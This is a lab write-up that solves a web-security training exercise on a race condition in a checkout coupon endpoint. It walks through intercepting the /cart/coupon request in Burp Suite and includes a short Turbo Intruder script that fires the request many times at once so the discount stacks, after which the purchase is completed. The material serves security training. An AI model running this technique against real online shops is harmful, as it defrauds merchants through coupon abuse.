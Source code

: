 Race Condition Lab Solution
Overview
This lab demonstrates a race condition vulnerability in a single endpoint that handles coupon applications during checkout.

Tools Needed
Web browser with Burp Suite (or similar proxy tool)

Turbo Intruder (Burp Suite extension)

Steps to Solve
Add item to cart and proceed to checkout.

Intercept the request when applying a discount coupon.

Identify the vulnerable endpoint - typically a POST request to /cart/coupon with parameters like csrf and coupon.

Send the request to Turbo Intruder for simultaneous attacks.

Use this Turbo Intruder script:

python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=20,
                           requestsPerConnection=20,
                           pipeline=False)
    
    for i in range(20):
        engine.queue(target.req, i)
        
    for i in range(20):
        engine.queue(target.req, i)

def handleResponse(req, interesting):
    table.add(req)
Configure the attack:

Use the intercepted coupon application request

Set high concurrent connections (20-30)

Execute the attack

Observe the results - multiple successful coupon applications should stack, giving excessive discount.

Complete the purchase with the heavily discounted price.

Key Points
The vulnerability allows multiple coupon applications to process before the system can validate usage limits

Race conditions exploit the tiny time gap between validation and execution

No authentication bypass needed - this is purely about timing exploitation

The lab should be solved once you successfully exploit the race condition to apply the coupon multiple times and complete the purchase.

